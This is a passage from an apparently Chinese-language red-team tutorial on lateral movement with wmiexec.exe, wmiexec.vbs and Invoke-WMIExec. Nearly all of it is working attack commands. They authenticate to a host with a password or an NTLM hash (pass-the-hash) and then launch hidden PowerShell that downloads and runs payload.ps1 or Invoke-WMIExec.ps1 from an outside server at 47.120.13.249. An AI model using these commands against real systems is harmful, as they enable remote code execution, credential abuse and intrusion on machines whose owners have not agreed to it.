 ```
wmiexec.exe hack/administrator:admin@123@192.168.70.16 "powershell.exe -nop -W hidden -C IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

#### 2、使用hash上线

```
wmiexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4 administrator@192.168.70.16 "powershell.exe -nop -W hidden -C IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

## wmiexec.vbs

wmiexec.vbs脚本通过VBS调用WMI来模拟PsExec的功能。其可以在远程系统中执行命令并进行回显，获取远
程主机的半交互式Shell. wmiexec.vbs支持两种模式， 一种是半交互式shell模式，另一种是执行单条命令模式

wmiexec.vbs 下载地址：https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs

```
cscript.exe //nologo wmiexec.vbs /cmd IP 用户 密码 "命令”

eg:
cscript.exe //nologo wmiexec.vbs /cmd 192.168.70.16 hack\administrator admin@123 "whoami"

cscript.exe //nologo wmiexec.vbs /cmd 192.168.70.16 hack\administrator admin@123 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

### 使用powershell上线

```
cscript.exe //nologo wmiexec.vbs /cmd 192.168.70.16 hack\administrator admin@123 "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://47.120.13.249:8080/payload.ps1'))"
```

## Invoke-WMlExec

### Invoke-WMlExec是一个powershel脚本在Invoke TheHash的文件中用法如下

```
Invoke-WMIExec -Target IP -Domain 域 -Username 用户 -Hash hash -Command "calc.exe" -verbose
```

### 采用无文件落地的方式进行横向

```
shell powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://47.120.13.249:8080/Invoke-WMIExec.ps1');import-module .\Invoke-WMIExec.ps1;Invoke-WMIExec -Target 192.168.70.16 -Domain hack -Username administrator -Hash 579da618cfbfa85247acf1f800a280a4 -Command "whoami" -verbose
```
